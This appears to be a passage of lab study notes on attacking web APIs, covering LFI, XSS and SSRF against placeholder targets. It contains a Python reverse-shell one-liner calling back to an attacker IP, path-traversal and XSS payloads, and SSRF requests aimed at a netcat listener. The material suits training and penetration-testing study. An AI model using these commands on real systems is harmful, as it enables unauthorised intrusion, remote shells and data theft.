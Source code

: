```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<VPN/TUN Adapter IP>",<LISTENER PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
# Local File Inclusion (LFI)
Local File Inclusion (LFI) is an attack that affects web applications and APIs alike. It allows an attacker to read internal files and sometimes execute code on the server via a series of ways, one being Apache Log Poisoning
```
ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'
```
It looks like /api/download is a valid API endpoint. Let us interact with it.
```
curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
```
# Cross-Site Scripting (XSS)
Cross-Site Scripting (XSS) vulnerabilities affect web applications and APIs alike. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser and result in complete web application compromise if chained together with other vulnerabilities.
Suppose we are having a better look at the API of the previous section, `http://<TARGET IP>:3000/api/download`. Let us first interact with it through the browser by requesting the belo
test_value is reflected in the response.
Let us see what happens when we enter a payload such as the below (instead of test_value).
```
<script>alert(document.domain)</script>
```
It looks like the application is encoding the submitted payload. We can try URL-encoding our payload once and submitting it again, as follows.
```
%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
```
Now our submitted JavaScript payload is evaluated successfully. The API endpoint is vulnerable to XSS!
# Server-Side Request Forgery (SSRF)
Server-Side Request Forgery (SSRF) attacks, listed in the OWASP top 10, allow us to abuse server functionality to perform internal or external resource requests on behalf of the server. We usually need to supply or modify URLs used by the target application to read or submit data. 
We can usually find SSRF vulnerabilities in applications or APIs that fetch remote resources
As we have mentioned multiple times, though, we should fuzz every identified parameter, even if it does not seem tasked with fetching remote resources.
Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api/userinfo`.
The API is expecting a parameter called id. Since we are interested in identifying SSRF vulnerabilities in this section, let us set up a Netcat listener first.
```
nc -lvnp 4444
```
Then, let us specify `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` as the value of the id parameter and make an API call.
```
curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
```
We notice an error about the id parameter being invalid, and we also notice no connection being made to our listener.
In many cases, APIs expect parameter values in a specific format/encoding. Let us try Base64-encoding `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` and making an API call again.
```
echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
```
```
curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
```